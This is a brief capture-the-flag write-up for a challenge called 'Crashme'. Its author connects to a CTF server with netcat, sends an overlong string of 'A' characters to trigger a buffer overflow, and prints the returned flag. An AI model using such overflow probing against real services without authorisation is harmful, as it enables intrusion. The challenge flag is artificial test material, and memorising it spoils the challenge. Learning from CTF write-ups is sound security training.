 # Crashme

## Description
```
Can you break the program?

nc ctf.mf.grsu.by 9024
```

## Writeup

Now there are multiple ways to crash a problem but the one I thought of first was a buffer overflow. <br/>
Thinking of it I proceeded and tried it out. <br/>
```sh
kali@kali nc ctf.mf.grsu.by 9024
Give me some data: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
You entered: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Your flag: grodno{a151c0S3gfaults_4re_a_gr3at_fr1end_0f_h4ck3r57f2819}
```

Obtaining the flag `grodno{a151c0S3gfaults_4re_a_gr3at_fr1end_0f_h4ck3r57f2819}` concludes this writeup. 